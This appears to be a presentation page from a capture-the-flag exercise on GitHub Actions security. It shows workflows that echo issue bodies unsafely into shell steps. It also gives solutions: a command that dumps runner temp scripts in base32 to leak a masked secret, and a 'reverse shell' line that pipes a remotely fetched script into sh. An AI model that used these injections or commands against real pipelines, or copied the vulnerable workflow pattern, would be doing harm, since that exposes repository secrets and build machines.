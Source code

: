 ## Am I too late ?

```yaml
# From: https://github.com/Nebouh/tdf-ctf-cicd/blob/main/.github/workflows/chall4.yml
name: 🔒 Chall 4 - Look mom, without env
on:issues: # Trigger
jobs:
  test:
    steps:
      - name: Check my flag is correctly masked
        run: "echo Flag: ${{ secrets.FLAG }}" # Loot ?

      - name: Unsafe right ?
        run: "echo Body: ${{ github.event.issue.body }}"

      - name: But whatever
        run: "echo Void: "
```

---

## Am I too late ?

```yaml
solutions:
  cat it : |
    cat ../../_temp/*.sh | base32
  (fancy) reverse shell: |
    curl -sSf https://sshx.io/get | sh -s run
```
---
## Am I too early ?

```yaml
# From: https://github.com/Nebouh/tdf-ctf-cicd/blob/main/.github/workflows/chall5.yml
name: 🔒 Chall 5 - Look mom, without flag
on: issues: # Trigger
jobs:
  test:
    steps:
      - if: ${{ github.secret_source == 'Actions' }} 
        name: Check that flag is present
        run: | 
          echo "I got a flag, but you dont"

      - name: Unsafe right ?
        run: |
          echo Body: ${{ github.event.issue.body }}

      - if: ${{ github.secret_source == 'None' }} # on PR event, no secret      
        name: But whatever, you will not see it!
        run: |
          echo ${{ secrets.FLAG }}
```
---

